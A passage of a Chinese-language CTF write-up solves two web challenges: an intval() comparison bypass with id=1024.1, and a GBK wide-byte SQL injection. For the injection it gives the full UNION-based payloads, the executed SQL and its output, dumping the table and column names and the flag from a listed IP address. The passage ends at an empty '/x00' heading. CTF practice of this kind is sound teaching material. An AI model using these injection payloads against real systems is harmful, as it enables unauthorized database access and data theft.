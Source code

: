 ````
这题是在当前目录下，直接在URL中访问robots.txt
```php
TIP:sql.php

<?php
if($_GET[id]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```
知道是在sql.php页面进行简单SQL注入，需要传入参数 id，id 的值等于 1024 时输出`no! try again`，id 等于其他值是输出对应参数的值
试了几个id 的值，发现并没有什么收获，想起上面再进行比较之前有一句`$id = intval($_GET[id]);`，将id 进行整数化，所以如果将id 传入一个小数试试，`id=1024.1`,得到Flag
其实细读给出的代码，按照CTF的习惯，这题就是怎么输入`id != 1024`，但是` intval(id) == 1024`

###sql injection 3
试了一下发现是宽字节注入，宽字节注入是因为url进行gbk编码的时候双字节的%df覆盖掉了后面的%27
```
http://115.28.150.176/sqli/index.php?id=?' or 1=1 order by 1#
执行的sql语句：SELECT id,title FROM news WHERE id='運' or 1=1 order by 2#'
id: 2 title: gbk_sql_injectionid: 1 title: just_a_test
```
order by 3 出错，所以值 2
```
http://115.28.150.176/sqli/index.php?id=?' or 1=1 order by 3#
ErrorUnknown column '3' in 'order clause'
```
查询数据库名称得到 `sqli1 `
```
http://115.28.150.176/sqli/index.php?id=?' union select database(),2#
执行的sql语句：SELECT id,title FROM news WHERE id='運' union select database(),2#'
id: sqli1 title: 2
```
查询表名得到 `flag ，news`，直接看 flag 表啦
```
http://115.28.150.176/sqli/index.php?id=?' 
union select group_concat(table_name),2 from information_schema.tables where table_schema=0x73716C6931#
执行的sql语句：SELECT id,title FROM news WHERE id='運' union select group_concat(table_name),2 from information_schema.tables where table_schema=0x73716C6931#'
id: flag,news title: 2
```
查询列名得到 `fl4g`
```
SELECT id,title FROM news WHERE id='運' 
union select group_concat(column_name),2 from information_schema.columns where table_name=0x666C6167#'
id: fl4g title: 2
```
直接查询 fl4g 字段的值
```
SELECT id,title FROM news WHERE id='運' union select fl4g,2 from flag#'
id: nctf{gbk_3sqli} title: 2
```

###/x00
题目所给代码
````